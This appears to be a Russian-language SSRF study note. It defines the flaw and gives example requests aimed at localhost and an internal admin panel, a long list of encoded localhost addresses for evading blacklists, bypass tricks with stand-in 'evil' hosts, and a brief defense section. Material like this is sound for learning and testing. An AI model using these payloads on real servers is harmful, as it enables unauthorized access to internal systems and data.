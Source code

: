 ###SSRF(server)

* **Описание**
	
	Server-Side Request Forgery — подделка запросов на стороне сервера. С помощью этой уязвимости злоумышленник отправляет запросы от имени сервера к внешним или внутренним ресурсам. Например, к базе данных на другом сервере или любому сайту, с которым работает приложение.
	
* **Виды**
*    SSRF-атака на сервер. Злоумышленник заставляет сервер установить соединение с внутренними сервисами в инфраструктуре организации.
*   SSRF-атака на другие внутренние системы. Злоумышленник заставляет подключиться к произвольным внешним системам. Здесь утечка конфиденциальных данных происходит намного проще.
*    Cлепой SSRF
*   SSRF через неправильно сформированную строку запроса**
Пользовательские прокси иногда не могут правильно проверить строку запроса, что может позволить вам предоставить необычный, неправильно сформированный ввод с неудачными результатами.
Например, обратный прокси может взять путь из строки запроса, добавить к нему префикс http://backend-server и направить запрос на этот URL-адрес восходящего потока. Это работает нормально, если путь начинается с символа /, но что, если вместо этого он начинается с символа @?
GET @private-intranet/example HTTP/1.1
Результирующий URL-адрес восходящего потока будет http://backend-server@private-intranet/example, что большинство библиотек HTTP интерпретируют как запрос на доступ к private-intranet с именем пользователя backend-server.
     
* **Точки входа и POC** 

	SSRF возникает там, где приложение пересылает предоставленный пользователем URL-адрес или другие входные данные на внешний сервер.
	Частичные URL-адреса в запросах
	URL-адреса в форматах данных
	SSRF через заголовок Referer


POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

url=http://sklad.yandexmarket.ru/product/stock/check?productId=6&storeId=1 
Например, можно использовать url=http://127.0.0.1 или url=http://localhost


Redirect:
GET /product/nextProduct?currentProductId=1&path=/product?productId=2 (path=evil.url)
POST
stockApi=/product/stock/check?productId=3&storeId=1
stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin/

2130706433
017700000001
127.1
0x7f000001
0177.0.0.1
::ffff:127.0.0.1
::1
127.0.0.0
127.0.0.254
2130706432
http://[0000::1]:80
http://[0:0:0:0:0:ffff:127.0.0.1]
http://[::ffff:127.0.0.1]
[::ffff:127.0.0.1]
[0:0:0:0:0:ffff:127.0.0.1]
[0000::1]:80
[0000::1]
127.0.1
http://0/
http://127.1
http://127.0.1
0
01111111000000000000000000000001
01111111.00000000.00000000.00000001
127.000.000.1
0x7f.0x0.0x0.0x1
0177.0.0.01
127.0.0.0
[::]:80
[::]:443
0000::1:80 

* **Профит**

    несанкционированные действия внутри системы,
    обход файрволов и других защитных механизмов,
    доступ к административным панелям,
    доступ к базам данных с возможностью чтения, модификации или удаления данных,
    доступ к данным организации (например, к API-ключам или метаданным облачных инфраструктур), что может привести к дальнейшей компрометации системы,
    если сервер может интерпретировать входящие запросы как команды, то злоумышленник может добиться удалённого выполнения кода.
    
    Доступ к внутренним системам компании.Среди них — внутренний портал, система контроля версий, репозитории с исходным кодом, бухгалтерские системы и другие.
    Сканирование внутренней сети. Злоумышленник сможет обращаться к IP-адресам во внутренней сети. Это позволит найти открытые порты, другие уязвимости и цели для атаки.
    Обход механизмов безопасности.Обычно у внутренних сервисов больше доверия к запросам. Так что SSRF позволит обойти некоторые проверки.
    Сокрытие следов атаки.Сложнее отследить злоумышленника, использующего внутренний сервер как прокси для маскировки своих действий. Все запросы отправляются от доверенного сервера.


* **Защита**

*    Лучшая защита — отсутствие функций, которые совершают запросы к другим ресурсам. 
Если без этого не обойтись:
*    Введи белый список разрешённых ресурсов. Проверяй весь URL вместе с протоколом https:// и нужным методом.
*    Добавь сетевые ограничения для сервиса. Это могут быть правила файрвола на хосте.
*    Используй анти-SSRF-прокси.
    
* **Обход защиты**

*    Белый список - Если мы создадим поддомен, например http://legit.some-company.ru.evil.com, то сможем обойти фильтры.
*    Черный список - представлений IP-адреса в других системах счислений.
    		    Заменим исходный http://localhost на http://LocalHost.
    		    DNS Rebinding - зарегистрировать домен, который будет преобразовываться в 127.0.0.1. Используя этот домен, тоже можно обойти ограничения. 
		    URL-адрес невосприимчив к регистру букв.	
		    Также мы можем вставить учётные данные в URL перед именем хоста, используя символ @. Например, https://expected-host:fakepassword@evil-host.
		    А ещё для обозначения фрагмента URL можно использовать символ #. Например, https://evil-host#expected-host.
*    Обход фильтров SSRF с помощью открытого перенаправления - При условии, что API, используемый для создания внутреннего HTTP-запроса, поддерживает перенаправления, вы можете создать URL-адрес, который удовлетворяет фильтру и приводит к перенаправлению запроса на желаемую внутреннюю цель. POST /product/nextProduct?currentProductId=1&path=/product?productId=2&(path=evil.url)



